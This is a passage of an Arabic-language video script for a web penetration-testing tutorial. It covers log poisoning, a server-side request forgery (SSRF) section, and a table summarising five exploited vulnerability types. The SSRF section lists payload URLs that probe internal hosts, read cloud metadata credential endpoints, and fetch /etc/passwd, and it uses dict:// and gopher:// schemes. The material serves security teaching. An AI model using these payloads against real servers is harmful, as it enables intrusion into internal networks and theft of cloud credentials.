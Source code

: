 **المعلق الصوتي:**
"تمكنا من قراءة ملفات النظام الحساسة، واستخدام تقنيات متقدمة مثل تسميم السجلات للحصول على تنفيذ كود."

---

## القسم السادس: SSRF - استكشاف الخدمات الداخلية (الدقيقة 20-24)

### [المشهد: فحص الشبكة الداخلية]

**المعلق الصوتي:**

"ثغرة SSRF تسمح لنا بإرسال طلبات من الخادم إلى موارد داخلية لا يمكن الوصول إليها عادة من الخارج."

**الأوامر التي تظهر:**
```
# فحص الشبكة الداخلية
http://192.168.1.1:80
http://10.0.0.1:3306
http://172.16.0.1:6379

# الوصول إلى Cloud Metadata
http://169.254.169.254/latest/meta-data/
http://metadata.google.internal/computeMetadata/v1/

# استخدام بروتوكولات مختلفة
file:///etc/passwd
dict://localhost:11211
gopher://localhost:70
```

**المعلق الصوتي:**
"تمكنا من اكتشاف خدمات داخلية لا تظهر عادة، والوصول إلى بيانات الاعتماد الخاصة بخدمات Cloud، مما يثبت خطورة هذه الثغرة."

---

## القسم السابع: التحليل والتوصيات (الدقيقة 24-26)

### [المشهد: جدول يوضح نتائج الاستغلالات]

**المعلق الصوتي:**

"لخصنا نتائج استغلالاتنا في هذا الجدول. كما نرى، تمكنا من استغلال خمس ثغرات مختلفة، كل منها يحمل مستوى خطورة مختلف."

**الجدول الذي يظهر:**
| نوع الثغرة | مستوى الخطورة | التأثير |
|------------|---------------|---------|
| SQL Injection | حرج | وصول كامل لقاعدة البيانات |
| XSS | مرتفع | سرقة بيانات الاعتماد |
| Command Injection | حرج | وصول كامل للنظام |
| LFI | مرتفع | الكشف عن معلومات حساسة |
| SSRF | حرج | الوصول للخدمات الداخلية |

---